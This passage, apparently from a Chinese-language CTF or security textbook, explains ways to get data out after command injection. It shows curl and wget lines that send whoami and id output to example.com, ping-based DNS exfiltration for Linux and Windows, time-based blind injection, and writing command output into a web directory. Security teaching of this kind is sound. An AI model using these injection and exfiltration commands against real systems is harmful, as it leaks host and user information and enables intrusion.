 ```jsx
curl example.com/`whoami`
wget example.com/$(id|base64)
```

上面便是利用多条命令执行中的“`”和“$()”进行字符串拼接，最终通过curl、wget等命令向外进行请求，从而实现了数据外带。

### 2．DNS通道

经常我们会以ping来测试DNS外带数据，ping的参数在Windows与Linux下有些不同。如限制ping的个数，在Windows下是“-n”，而在Linux下是“-c”。为了兼容性处理，可以联合使用，即“ping-nc 1 test.example.com”。

在Linux下：



```css
ping -c 1 `whoami`.example.com
```

在Windows下相对复杂，主要利用delims命令进行分割处理，最终拼接到域名前缀上，再利用ping程序进行外带。
 <1>获取计算机名：
 `for /F "delims=\" %i ('whoami') do ping -n 1 %i.xxx.example.com`
 <2>获取用户名：
 `for /F "delims=\ tokens=2" %i in ('whoami') do ping -n 1 %i.xxx.example.com`

### 3．时间盲注

网络不通时，可以通过时间盲注将数据跑出来，主要借用“&&”和“||”的惰性；在Linux下可使用sleep函数，在Windows下则可以选择一些耗时命令，如ping-n 5 127.0.0.1。

### 4．写入文件

二次返回有时会遇上网络隔离的情况，time型读数据将会极其缓慢，可以考虑将执行命令结果写入到Web目录下，再次通过Web访问文件从而达到回显目的。
 例如，通过“>”重定向，将结果导出到Web目录`http://www.nu1l.com/exec/3.php？cmd=whoami>test`下，再次访问导出文件`http://www.nu1l.com/exec/test`，便可以得到结果。